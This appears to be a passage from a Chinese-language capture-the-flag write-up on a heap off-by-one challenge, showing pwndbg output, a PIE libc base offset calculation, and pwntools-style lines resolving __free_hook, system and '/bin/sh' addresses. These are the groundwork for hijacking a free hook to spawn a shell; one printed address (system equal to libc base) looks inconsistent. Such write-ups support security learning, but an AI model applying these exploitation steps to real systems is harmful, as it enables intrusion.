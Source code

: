 `offset = book2_name_addr - 0x00007ffff7a0d000 = 0x4da010`

```python
pwndbg> distance 0x7ffff7a0d000 0x00007ffff7ee7010
0x7ffff7a0d000->0x7ffff7ee7010 is 0x4da010 bytes (0x9b402 words)
```

自己设置的加载基址是不变的，但是本题开启了PIE，每次基址都是不同的，所以需要算一下。

接下来泄漏一些重要函数的地址

```python
free_hook_addr = libc_base + libc.symbols["__free_hook"]
system_addr = libc_base + libc.symbols["system"]
binsh_addr = libc_base + libc.search("/bin/sh").next()

----

book2_name_addr ==> 0x7ffff7ee7010
book2_des_addr ==> 0x7ffff7918010
libc_base ==> 0x7ffff7a0d000
free_hook_addr ==> 0x7ffff7dd37a8
system_addr ==> 0x7ffff7a0d000
binsh_addr ==> 0x7ffff7b99e17

```

记录一下内存结构

```python
#起始
0x55555575605d-0x35+0x8

#堆块1
0x00005555557581d0--->0x0000555555758100
#堆块1-description

pwndbg> telescope 0x0000555555758100
00:0000│   0x555555758100 ◂— 0x1
01:0008│   0x555555758108 —▸ 0x555555758210 —▸ 0x7ffff7918010 ◂— 'hello world'
02:0010│   0x555555758110 —▸ 0x555555758208 —▸ 0x7ffff7ee7010 ◂— 0x326b6f6f626b6b /* 'kkbook2' */
03:0018│   0x555555758118 ◂— 0xffff
04:0020│   0x555555758120 ◂— 0x0
... ↓

```

![9](/chunk_offbyone/9.png)

